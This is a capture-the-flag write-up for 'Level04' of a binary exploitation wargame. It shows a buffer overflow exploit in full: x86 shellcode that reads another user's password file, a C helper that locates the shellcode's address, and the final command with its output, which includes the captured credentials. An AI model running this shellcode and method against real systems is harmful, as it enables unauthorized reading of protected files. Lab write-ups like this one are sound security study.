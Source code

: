 # Level04

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a buffer overflow to inject a [Shellcode](https://en.wikipedia.org/wiki/Shellcode) as asked by the program. Thanks to our analysis we know that the offset is **156** bytes and using the following shellcode we'll get our next password!

```shell
  export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'")
```

> This shellcode was found [here](http://shell-storm.org/shellcode/files/shellcode-73.php) and basically read a file and output its content to standard input.

Last step would be to get the actual address of that shellcode in our environment, using the following small program.

```C
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Finally piece everything together and you're done!

```shell
  $> python -c "print '\x90' * 156 + '\xXX\xXX\xXX\xXX'[::-1]" | ./level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
```

> `\xXX\xXX\xXX\xXX` is the address of the shellcode.

So next user credentials pair is `level05:3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`.

Check [here](../source.c) for reproduction source-code of this binary.